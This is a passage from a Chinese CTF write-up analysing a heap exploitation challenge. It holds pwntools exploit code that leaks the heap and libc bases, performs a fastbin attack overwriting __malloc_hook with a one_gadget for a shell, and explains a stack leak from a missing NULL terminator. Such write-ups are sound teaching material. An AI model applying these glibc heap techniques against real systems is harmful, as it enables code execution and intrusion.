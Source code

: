```python

heap_base = u64(search("\x10", "n")[10:18]) - 0x1010	#first chunk - 0x1010 = heapbase
log.info("heap_base: " + hex(heap_base))

index("bbbb "+"b"*0x5b)	#4 bytes for replace	and top chunk +0xd0
index("cccc "+"c"*0x5b)	#top chunk + 0xd0
index("dddd "+"d"*0x5b)	#top chunk + 0xd0
search("bbbb", "y")
search("cccc", "y")
search("dddd", "y")

search(p32(heap_base+0x11c0), "y")

# malloc_hook
payload = p64(libc_base + 0x3c4aed)	#__malloc_hook - 0x13

# free hook
# payload = p64(libc_base+0x3c6795)
index(payload+p8(0)*0x58)
index("B"*0x60)
index("C"*0x60)

payload = p8(0)*3
payload += p64(0)*2		#0x13 bytes
payload += p64(libc_base+0xcd0f3)	#one_gadget
payload += "\x00"*(0x60-len(payload))
index(payload)			#when malloc the struct word(0x40), it will jump to one_gadget

p.interactive()
```
#### 3.1.0	读取size大小时无NULL结尾导致可以实现栈泄露
在调用Index函数创建单词时，有一个函数`read_num`用于读取输入字符串的长度，当输入的不是字符不是数字时将会输出字符，并提醒重新输入，但是上一次输入的字符仍然会存储在栈中，并且结尾不会添加NULL字符，同时会将字符存储的地址存在开始字符的前8个字节处。这样，当第二次输入时将此时的数组空间（40 bytes）占满，那么输出字符时，由于没有NULL字符截断，就会在40个字符后面紧跟着将栈地址输出，实现栈地址泄露：
```python
def leak_stack():
    p.sendline('A'*4)
    p.recvuntil('Quit\n')
    p.recvline()

    p.sendline('A'*48)
    leak = p.recvline().split(' ')[0][48:]
    return int(leak[::-1].encode('hex'), 16)
```
不过这个漏洞在本次分析的exp中并没有用到，写在这里权作记录。
#### 3.1.1	libc地址泄露

在exp中，libc地址泄露的方法是通过unsorted bin attack得到。

首先通过第一个index和search，可以得到两个0x20大小的fastbin：
